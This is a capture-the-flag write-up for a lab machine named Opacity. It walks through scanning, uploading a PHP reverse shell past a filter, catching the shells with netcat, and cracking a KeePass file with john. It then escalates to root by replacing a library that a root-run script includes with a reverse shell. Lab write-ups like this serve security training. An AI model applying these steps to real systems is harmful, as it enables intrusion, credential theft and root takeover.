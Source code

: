 # Opacity

I am going to start with a nmap scan:

```bash
nmap -sC -sV 10.10.163.225

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 09:11 EST
Nmap scan report for 10.10.163.225
Host is up (0.057s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-01-05T14:12:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.04 seconds
```

Now we know that it runs HTTP and SAMBA,

first let’s see what’s in the web page:

![Untitled](Opacity%200ac982ae7c05472f984b5712f3032562/Untitled.png)

We can see that there is a login page.

But there are other directories:

```bash
ffuf -u http://10.10.163.225/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.163.225/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6221ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6475ms]
cloud                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 2377ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 56ms]
:: Progress: [20469/20469] :: Job [1/1] :: 327 req/sec :: Duration: [0:00:46] :: Errors: 0 ::
```

The cloud one could let us upload a reverse shell:

![Untitled](Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%201.png)

We need to start our listener with a revshell.php, and upload the php code like that to avoid the security measurements:

![Untitled](Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%202.png)

So we got the shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 37874
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:47:56 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

In the opt folder I found out a dataset.kdbx file which stores the keepass credentials.

I copied it in the / folder so I could download it from my machine.

This type of file can be cracked using john:

```bash
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt Keepasshash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)     
1g 0:00:00:04 DONE (2024-01-05 09:58) 0.2105g/s 185.2p/s 185.2c/s 185.2C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And now if we open the file with keepass we got the credentials!

```bash
ssh sysadmin@10.10.163.225

sysadmin@10.10.163.225's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 05 Jan 2024 03:03:45 PM UTC

  System load:  0.02              Processes:             125
  Usage of /:   57.1% of 8.87GB   Users logged in:       0
  Memory usage: 28%               IPv4 address for eth0: 10.10.163.225
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Feb 22 08:13:43 2023 from 10.0.2.15
sysadmin@opacity:~$
```

And we got the first flag.

From here we have a scripts folder, inside there is a file owned by root:

```bash
cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that this script calls `lib/backup.inc.php` so what I have done is moving the original script out of the folder, and instead put mine which contains a reverse shell(I have used the pentestermonkey one)

So the next time that the main script runs, we should have a reverse shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 55346
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:20:02 up  1:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.11.65.91      15:03    1:05   0.08s  0.08s -bash
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (2322): Inappropriate ioctl for device
bash: no job control in this shell
root@opacity:/# ls
```